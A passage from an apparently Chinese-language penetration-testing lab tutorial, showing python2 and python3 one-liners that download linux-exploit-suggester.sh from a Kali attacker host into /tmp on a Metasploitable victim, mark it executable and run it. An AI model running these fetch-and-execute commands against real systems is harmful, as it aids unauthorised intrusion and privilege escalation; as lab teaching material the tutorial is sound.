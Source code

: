 使用 python2 从 Kali 机器下载脚本 linux-exploit-suggester.sh。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
python -c "import urllib2; u = urllib2.urlopen('http://${LHOST}:${LPORT}/${file}'); localFile = open('/tmp/${file}', 'w'); localFile.write(u.read()); localFile.close()"; chmod 755 /tmp/${file}; ls -l /tmp/${file};
```

![](img/3eaae1820588f32008f6feb0a7682fa8.png)

我们的目标系统仅支持 python3，您可以使用 python3 请求模块下载 python3 漏洞。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
python3 -c "import requests; url = 'http://${LHOST}:${LPORT}/${file}'; myfile = requests.get(url); open('/tmp/${file}', 'wb').write(myfile.content)"; chmod 755 /tmp/${file}
```

5.在 192.168.62.162 上执行(受害者机器，Metasploitable)。

执行 linux-exploit-suggester.sh

```
cd /tmp
./linux-exploit-suggester.sh
```
